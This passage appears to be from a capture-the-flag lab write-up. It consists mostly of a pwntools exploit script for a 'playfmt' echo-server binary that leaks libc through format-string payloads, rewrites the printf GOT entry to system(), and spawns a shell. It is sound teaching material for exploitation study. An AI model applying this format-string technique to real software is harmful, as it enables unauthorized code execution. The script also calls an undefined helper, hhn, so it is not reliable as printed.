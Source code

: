 ```python  
def hn(addr,offset):  
    return "%{addr}c%{offset}$hn".format(addr=addr,offset=offset)  
  
p = process("./playfmt")  
elf = ELF("./playfmt")  
libc = elf.libc  
#step1 leak esp and libc  
payload = "%6$p.%15$pstep1\x00"  
p.sendlineafter("  Magic echo Server\n=====================\n",payload)  
p.recvuntil('0x')  
esp_addr=int(p.recv(8),16)-0x28  
p.recvuntil('0x')  
libc_main_addr=int(p.recv(8),16)-241  
libc_addr = libc_main_addr - libc.symbols["__libc_start_main"] - 6  
system_addr = libc_addr + libc.symbols["system"]  
success("esp addr:{:#x} ".format(esp_addr))  
success("libc addr:{:#x} ".format(libc_addr))  
success("system addr:{:#x} ".format(system_addr))  
  
# step2 change 0x39 and 0x3b with 0x15 0x16  
payload = hn((esp_addr+0x1c)&0xffff,0x15)  
payload += hn(((esp_addr+0x2c)&0xffff-(esp_addr+0x1c)&0xffff)%0xffff,0x16)  
payload += 'step2\x00'  
p.sendlineafter("step1",payload)  
  
#step3 change 0x7 0xb with 0x39 0x3b  
payload = hn((elf.got['printf'])&0xffff,0x39)  
payload += hn(2,0x3b)  
payload += 'step3\x00'  
p.sendlineafter('step2',payload)  
  
#step4 change got with 0x7 0xb  
payload = hhn(system_addr >> 16 & 0xff,0xb)  
payload += hn((system_addr&0xffff) - (system_addr >> 16 & 0xff),0x7)  
payload += 'step4\x00'  
p.sendlineafter('step3',payload)  
  
while True:  
    sleep(0.1)  
    data = p.recv()  
    if data.find("step4") != -1:  
        break  
  
#step5 send /bin/sh  
p.sendline('/bin/sh\x00')  
  
p.interactive()  
```  
  
## lab10  
  